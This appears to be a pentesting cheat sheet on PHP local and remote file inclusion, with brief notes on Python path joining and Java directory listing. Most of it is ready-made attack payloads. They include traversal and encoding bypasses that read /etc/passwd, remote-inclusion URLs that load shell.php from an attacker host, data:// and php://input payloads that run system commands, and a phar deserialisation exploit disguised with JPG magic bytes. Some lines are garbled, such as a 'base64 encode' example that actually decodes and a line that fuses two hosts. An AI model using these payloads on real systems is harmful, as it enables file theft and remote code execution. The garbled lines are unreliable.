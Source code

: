 # File inclusion
**Remote File Inclusion (RFI):** The file is loaded from a remote server (Best: You can write the code and the server will execute it). In php this is **disabled** by default (**allow_url_include**).  
**Local File Inclusion (LFI):** The sever loads a local file.

The vulnerability occurs when the user can control in some way the file that is going to be load by the server.

Vulnerable **PHP functions**: require, require_once, include, include_once


# Basic
```
http://domain.com/index.php?page=../../../etc/passwd
```

# URL Encoding
You could use non-standard encodings like double URL encode (and others):
```
http://domain.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://domain.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://domain.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://domain.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```

# Filter bypasses

```
http://domain.com/index.php?page=....//....//etc/passwd
http://domain.com/index.php?page=..///////..////..//////etc/passwd
http://domain.com/index.php?page=PhP://filter
http://example.com/index.php?page=/%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../%5C../etc/passwd Maintain the initial path: http://example.com/index.php?page=/var/www/../../etc/passwd http://example.com/index.php?page=PhP://filter
```

## Null byte (%00)
Bypass the append more chars at the end of the provided string (bypass of: $_GET['param']."php")
```
http://example.com/index.php?page=../../../etc/passwd%00
```  
This is **solved since PHP 5.4**



# Basic RFI and bypasses
```
http://domain.com/index.php?page=http://remote.com/shell.php
http://domain.com/index.php?page=\\remote.com\shell.phpattacker.com\mal.php
```

# PHP Wrappers and Protocls

## php://filter

PHP filters allow one to perform modification on data before it's being read by the server.
Some of the techniques below can be used to bypass restrictions and filters set by the server.
```
# BASE64 encode data
http://domain.com/index.php?page=php://filter/convert.base64-decode/resource=/etc/passwd);
```

## data://

```
http://domain.com/?page=data://text/plain,<?php echo base64_encode(file_get_contents("index.php")); ?>

http://domain.com/?page=data://text/plain,<?php phpinfo(); ?>
```

## phar:// and phar deserialisation

A `.phar` file is a PHP archive. One can upload such file and execute code when it is being loaded.
It contains metadata in a serialised format. When parsed on the server said metadata gets deserialised.

Even if the source code on the server is not using the `eval` function, the following other methods will still invoke the vulnerability. `file_get_contents()`,`fopen()`,`file()`,`file_exists()`,`md5_file()`,`filemtime()`,`filesize()`

[Read this for a more in-depth discussion](https://book.hacktricks.xyz/pentesting-web/file-inclusion/phar-deserialization)

### Exploitation
1. Pretend that this is the source code of the server.
```php
# server.php
<?php
class ReadFile{
	public $data = null;
	
	public function __construct($data) {
		$this->data = $data;
	}
	
	function __destruct() {
		system($this->data);
	}
}

file_get_contents("phar://pwned.phar");
?>
```

2. This is the code that will make the `.phar` file.
```php
# make_phar.php
<?php

class ReadFile{

	public $data = null;
	
	public function __construct($data) {
		$this->data = $data;
	}
	
	function __destruct() {
		system($this->data);
	}
}

# Make phar
$phar = new Phar('pwned.phar');
$phar->startBuffering();
$phar->addFromString('test.txt', 'text');
$phar->setStub("\xff\xd8\xff\n<?php __HALT_COMPILER(); ?>");

# Add object of class as metadata
$object = new ReadFile('whoami');
$phar->setMetadata($object);
$phar->stopBuffering();

?>
```

*Magic bytes of JPG* `\xff\xd8\xff` *have been added to the phar file to bypass file upload restrictions*

3. Compile `pwned.phar` with:
```bash
php --define phar.readonly=0 make_phar.php
```

## input://
Specify your payload in the POST parameters:

```bash
curl -XPOST "http://example.com/index.php?page=php://input" --data "<?php system('id'); ?>"
```



# Python Root element
In python in a code like this one:

```python
# file_name is controlled by a user 
os.path.join(os.getcwd(), "public", file_name)
```

If the user passes an **absolute path** to **`file_name`**, the **previous path is just removed**:

```python
os.path.join(os.getcwd(), "public", "/etc/passwd") '/etc/passwd'
```

# Java List Directories
It looks like if you have a Path Traversal in Java and you **ask for a directory** instead of a file, a **listing of the directory is returned**. This won't be happening in other languages.

## Top Parameters
```
?cat={payload}
?dir={payload}
?action={payload}
?board={payload}
?date={payload}
?detail={payload}
?file={payload}
?download={payload}
?path={payload}
?folder={payload}
?prefix={payload}
?include={payload}
?page={payload}
?inc={payload}
?locate={payload}
?show={payload}
?doc={payload}
?site={payload}
?type={payload}
?view={payload}
?content={payload}
?document={payload}
?layout={payload}
?mod={payload}
?conf={payload}
```


# References
- [https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/index.html)
- [https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/phar-deserialization.html](https://book.hacktricks.wiki/en/pentesting-web/file-inclusion/phar-deserialization.html)
- [https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64/](https://matan-h.com/one-lfi-bypass-to-rule-them-all-using-base64/)
- [https://www.php.net/manual/en/wrappers.php](https://www.php.net/manual/en/wrappers.php)